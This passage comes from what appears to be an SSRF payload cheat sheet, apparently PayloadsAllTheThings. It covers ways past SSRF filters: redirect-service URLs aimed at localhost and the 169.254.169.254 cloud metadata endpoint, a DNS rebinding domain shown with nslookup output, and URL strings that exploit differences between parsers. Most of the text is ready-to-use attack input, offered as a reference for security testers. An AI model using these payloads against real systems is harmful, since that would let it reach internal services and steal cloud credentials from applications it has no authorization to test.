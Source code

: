To perform redirects without hosting own redirect server or perform seemless redirect target fuzzing, use [Horlad/r3dir](https://github.com/Horlad/r3dir).

* Redirects to `http://localhost` with `307 Temporary Redirect` status code

    ```powershell
    https://307.r3dir.me/--to/?url=http://localhost
    ```

* Redirects to `http://169.254.169.254/latest/meta-data/` with `302 Found` status code

    ```powershell
    https://62epax5fhvj3zzmzigyoe5ipkbn7fysllvges3a.302.r3dir.me
    ```

### Bypass Using DNS Rebinding

Create a domain that change between two IPs.

* [1u.ms](http://1u.ms) - DNS rebinding utility

For example to rotate between `1.2.3.4` and `169.254-169.254`, use the following domain:

```powershell
make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
```

Verify the address with `nslookup`.

```ps1
$ nslookup make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Name:   make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Address: 1.2.3.4

$ nslookup make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Name:   make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Address: 169.254.169.254
```

### Bypass Abusing URL Parsing Discrepancy

[A New Era Of SSRF Exploiting URL Parser In Trending Programming Languages - Research from Orange Tsai](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)

```powershell
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

![https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/WeakParser.png?raw=true](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/WeakParser.jpg?raw=true)

Parsing behavior by different libraries: `http://1.1.1.1 &@2.2.2.2# @3.3.3.3/`

* `urllib2` treats `1.1.1.1` as the destination
* `requests` and browsers redirect to `2.2.2.2`
* `urllib` resolves to `3.3.3.3`
